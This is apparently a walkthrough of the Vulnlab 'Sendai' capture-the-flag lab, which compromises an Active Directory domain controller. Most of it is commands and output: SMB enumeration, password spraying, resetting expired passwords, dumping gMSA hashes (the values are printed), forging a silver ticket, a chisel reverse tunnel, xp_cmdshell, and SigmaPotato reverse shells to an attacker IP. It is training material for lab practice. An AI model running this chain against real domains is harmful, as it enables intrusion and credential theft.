



Vulnlab: Sendai
Reconnaissance
Nmap scan
$ nmap -sV -sC -T5 -p- 10.10.118.108
Host is up (0.13s latency).
Not shown: 65510 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-03-27 05:23:47Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::
, DNS:dc.sendai.vl
| Issuer: commonName=sendai-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-27T04:53:08
| Not valid after: 2026-03-27T04:53:08
| MD5: 5122:b61b:9a0d:2c65:3953:ebf9:0b69:8d71
|_SHA-1: 71c4:1f78:3777:394b:885b:004f:d480:d425:0046:0a11
443/tcp open ssl/http Microsoft IIS httpd 10.0
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: DNS:dc.sendai.vl
| Issuer: commonName=dc.sendai.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-18T12:39:21
| Not valid after: 2024-07-18T00:00:00
| MD5: 3223:91f5:f1f7:4e16:738e:382d:053e:c7fa
|_SHA-1: 5282:f809:dcc9:8d53:e9a1:065a:25a1:c741:fa2c:4bc5
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_ssl-date: TLS randomness does not represent time
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::
, DNS:dc.sendai.vl
| Issuer: commonName=sendai-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-27T04:53:08
| Not valid after: 2026-03-27T04:53:08
| MD5: 5122:b61b:9a0d:2c65:3953:ebf9:0b69:8d71
|_SHA-1: 71c4:1f78:3777:394b:885b:004f:d480:d425:0046:0a11
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::
, DNS:dc.sendai.vl
| Issuer: commonName=sendai-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-27T04:53:08
| Not valid after: 2026-03-27T04:53:08
| MD5: 5122:b61b:9a0d:2c65:3953:ebf9:0b69:8d71
|_SHA-1: 71c4:1f78:3777:394b:885b:004f:d480:d425:0046:0a11
|_ssl-date: TLS randomness does not represent time
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::
, DNS:dc.sendai.vl
| Issuer: commonName=sendai-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-27T04:53:08
| Not valid after: 2026-03-27T04:53:08
| MD5: 5122:b61b:9a0d:2c65:3953:ebf9:0b69:8d71
|_SHA-1: 71c4:1f78:3777:394b:885b:004f:d480:d425:0046:0a11
|_ssl-date: TLS randomness does not represent time
3389/tcp open ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
| Target_Name: SENDAI
| NetBIOS_Domain_Name: SENDAI
| NetBIOS_Computer_Name: DC
| DNS_Domain_Name: sendai.vl
| DNS_Computer_Name: dc.sendai.vl
| DNS_Tree_Name: sendai.vl
| Product_Version: 10.0.20348
|_ System_Time: 2025-03-27T05:24:38+00:00
|_ssl-date: 2025-03-27T05:25:18+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.sendai.vl
| Issuer: commonName=dc.sendai.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-26T05:02:02
| Not valid after: 2025-09-25T05:02:02
| MD5: 4451:89e4:3519:8b0c:9e35:aa21:c988:267d
|_SHA-1: 9231:3b50:ac99:791b:d5d6:3170:b523:fb8f:b240:52db
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf .NET Message Framing
49664/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49669/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49674/tcp open msrpc Microsoft Windows RPC
57859/tcp open msrpc Microsoft Windows RPC
57880/tcp open msrpc Microsoft Windows RPC
61288/tcp open msrpc Microsoft Windows RPC
61300/tcp open msrpc Microsoft Windows RPC
61309/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Enumeration
Right away we realize we have guest access to multiple SMB shares.
$ netexec smb 10.10.118.108 -u guest -p '' --shares
SMB 10.10.118.108 445 DC [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB 10.10.118.108 445 DC [+] sendai.vl\guest:
SMB 10.10.118.108 445 DC [*] Enumerated shares
SMB 10.10.118.108 445 DC Share Permissions Remark
SMB 10.10.118.108 445 DC ----- ----------- ------
SMB 10.10.118.108 445 DC ADMIN$ Remote Admin
SMB 10.10.118.108 445 DC C$ Default share
SMB 10.10.118.108 445 DC config
SMB 10.10.118.108 445 DC IPC$ READ Remote IPC
SMB 10.10.118.108 445 DC NETLOGON Logon server share
SMB 10.10.118.108 445 DC sendai READ company share
SMB 10.10.118.108 445 DC SYSVOL Logon server share
SMB 10.10.118.108 445 DC Users READ
We can access the SMB share using SMB client
$ smbclient //10.10.118.108/sendai -U "guest"
lpcfg_do_global_parameter: WARNING: The "syslog" option is deprecated
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> dir
. D 0 Tue Jul 18 13:31:04 2023
.. DHS 0 Wed Jul 19 10:11:25 2023
hr D 0 Tue Jul 11 08:58:19 2023
incident.txt A 1372 Tue Jul 18 13:34:15 2023
it D 0 Tue Jul 18 09:16:46 2023
legal D 0 Tue Jul 11 08:58:23 2023
security D 0 Tue Jul 18 09:17:35 2023
transfer D 0 Tue Jul 11 09:00:20 2023
Incident.txt is an interesting file so we are going to download that and take a look at it.
$ cat incident.txt
Dear valued employees,
We hope this message finds you well. We would like to inform you about an important security update regarding user account passwords. Recently, we conducted a thorough penetration test, which revealed that a significant number of user accounts have weak and insecure passwords.
To address this concern and maintain the highest level of security within our organization, the IT department has taken immediate action. All user accounts with insecure passwords have been expired as a precautionary measure. This means that affected users will be required to change their passwords upon their next login.
We kindly request all impacted users to follow the password reset process promptly to ensure the security and integrity of our systems. Please bear in mind that strong passwords play a crucial role in safeguarding sensitive information and protecting our network from potential threats.
If you need assistance or have any questions regarding the password reset procedure, please don't hesitate to reach out to the IT support team. They will be more than happy to guide you through the process and provide any necessary support.
Thank you for your cooperation and commitment to maintaining a secure environment for all of us. Your vigilance and adherence to robust security practices contribute significantly to our collective safety.
The message above gives us a hint letting us know that some users passwords have been reset. Using netexec with the --rid-brute flag gives us a list of users. We can then use this list to spray null sessions at the machine to see if we get any hits.
$ netexec smb 10.10.118.108 -u users.txt -p ''
SMB 10.10.118.108 445 DC [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB 10.10.118.108 445 DC [-] sendai.vl\Dorothy.Jones: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Kerry.Robinson: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Naomi.Gardner: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Anthony.Smith: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Susan.Harper: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Stephen.Simpson: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Marie.Gallagher: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Kathleen.Kelly: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Norman.Baxter: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Jason.Brady: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE
SMB 10.10.118.108 445 DC [-] sendai.vl\Malcolm.Smith: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Lisa.Williams: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Ross.Sullivan: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Clifford.Davey: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Declan.Jenkins: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Lawrence.Grant: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Leslie.Johnson: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Megan.Edwards: STATUS_LOGON_FAILURE
SMB 10.10.118.108 445 DC [-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE
Above we can see two interesting errors. Two users have the error STATUS_PASSWORD_MUST_CHANGE. This means both users do not have a password setup and we should be able to exploit this with Impacket.
└─$ impacket-changepasswd 'Thomas.Powell:@Sendai.vl' -newpass Password2
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
Current password:
[*] Changing the password of Builtin\Thomas.Powell
[*] Connecting to DCE/RPC as Builtin\Thomas.Powell
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.
┌──(kali㉿kali)-[~/Desktop/Vulnlab/Sendai]
└─$ impacket-changepasswd 'Elliot.Yates:@Sendai.vl' -newpass Password2
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
Current password:
[*] Changing the password of Builtin\Elliot.Yates
[*] Connecting to DCE/RPC as Builtin\Elliot.Yates
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.
The command output above confirms the passwords were reset. We can grab bloodhound data with these accounts and our new compromised user has some dangerous privileges over the ADMSVC group. 
To exploit generic all over this group we can use the command below to add our user to the ADMSVC group
$ net rpc group addmem "ADMSVC" "thomas.powell" -U "sendai.vl"/"thomas.powell"%"Password2" -S "dc.sendai.vl"Looking at bloodhound again our new group has access to read gmsa passwords which will provide us with the hash of mgtsvc$ We can use the tool below to exploit this https://github.com/micahvandeusen/gMSADumper
$ python3 gMSADumper.py -u 'thomas.powell' -p 'Password2' -d 'sendai.vl' Users or groups who can read password for mgtsvc$: > admsvc mgtsvc$:::aa8b20a6026c43b894a10d7de9985d9d mgtsvc$:aes256-cts-hmac-sha1-96:8a2e9cc171c6482003aa082a7165679a2e571d31ed0242cfc416494553562a7c mgtsvc$:aes128-cts-hmac-sha1-96:e2d7925993b9954b55dbc424cb1bd41dWith this access we can remote into the machine but we dont find anything interesting. Looking back into the shares we find a sqlsvc login. The sqlsvc login we have does not work for mssql however we can perform a silver ticket attack with this login and port forward 1433 to our local machine. Forge silver ticket using sqlsvc nt hash
impacket-ticketer -domain-sid S-1-5-21-3085872742-570972823-736764132 -domain sendai.vl -spn MSSQL/dc.sendai.vl -nthash 58655C0B90B2492F84FB46FA78C2D96A AdministratorPort forward port 1433
$ ./chisel_1.10.1_linux_amd64 server --socks5 --reverse --port 443Now that we have port forwarded mssql port we can access mssql using impacket and get a reverse shell.
C:\Windows\Temp> .\chisel.exe client 10.8.5.199:443 R:socks
impacket-ticketer -domain-sid S-1-5-21-3085872742-570972823-736764132 -domain sendai.vl -spn MSSQL/dc.sendai.vl -nthash aa8b20a6026c43b894a10d7de9985d9d Administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Creating basic skeleton ticket and PAC Infos
/usr/share/doc/python3-impacket/examples/ticketer.py:141: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
aTime = timegm(datetime.datetime.utcnow().timetuple())
[*] Customizing ticket for sendai.vl/Administrator
/usr/share/doc/python3-impacket/examples/ticketer.py:600: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
ticketDuration = datetime.datetime.utcnow() + datetime.timedelta(hours=int(self.__options.duration))
/usr/share/doc/python3-impacket/examples/ticketer.py:718: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
/usr/share/doc/python3-impacket/examples/ticketer.py:719: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
/usr/share/doc/python3-impacket/examples/ticketer.py:843: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
encRepPart['last-req'][0]['lr-value'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*] EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] PAC_SERVER_CHECKSUM
[*] PAC_PRIVSVR_CHECKSUM
[*] EncTicketPart
[*] EncTGSRepPart
[*] Saving ticket in Administrator.ccache
┌──(kali㉿kali)-[~/Desktop/Vulnlab/Sendai/gMSADumper]
└─$ export KRB5CCNAME=Administrator.ccache
┌──(kali㉿kali)-[~/Desktop/Vulnlab/Sendai/gMSADumper]
└─$ proxychains impacket-mssqlclient dc.sendai.vl -k -no-pass
dbo@master)> EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'whoami';
dbo@master)> xp_cmdshell PowerShell.exe -Exec ByPass -Nol -Enc
We get a reverse shell using xp_cmdshell

As always with sqlsvc accounts we have SeImpersonate and can exploit this.
The machine is running windows server 2022 so we have to use Sigma Potato
https://github.com/tylerdotrar/SigmaPotato/blob/main/Invoke-SigmaPotato.ps1
Commands to enter
C:\Windows\Temp> Import-Module .\Invoke.SigmaPotato.ps1
C:\Windows\Temp>Invoke-SigmaPotato -Command "--revshell 10.8.5.199 9999"
